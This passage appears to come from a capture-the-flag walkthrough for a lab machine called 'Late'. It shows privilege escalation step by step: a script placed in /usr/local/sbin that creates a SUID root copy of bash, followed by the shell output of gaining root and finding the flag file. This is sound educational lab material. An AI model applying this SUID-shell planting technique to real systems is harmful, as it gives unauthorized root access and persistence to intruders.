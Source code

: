 In `/usr/local/sbin`, create a shell script named `date` that creates a SUID `root` copy of `/bin/bash`.

```bash
svc_acc@late:/usr/local/sbin$ cat date
#!/bin/sh

cp /bin/bash /home/svc_acc/bash
chmod +s /home/svc_acc/bash
```

Log in via SSH and note the creation of the SUID `root` `bash` executable.

```bash
$ ssh -i svc_acc svc_acc@late.htb
svc_acc@late:~$ ls -la ~/bash
-rwsr-sr-x 1 root root 1113504 Apr 26 14:59 /home/svc_acc/bash
```

Run the SUID `root` `bash` and retrieve the system flag from `/root/root.txt`.

```bash
svc_acc@late:~$ ~/bash -p
bash-4.4# id
uid=1000(svc_acc) gid=1000(svc_acc) euid=0(root) egid=0(root) groups=0(root),1000(svc_acc)
bash-4.4# ls -la /root/root.txt
-rw-r----- 1 root root 33 Apr 26 06:34 /root/root.txt
```

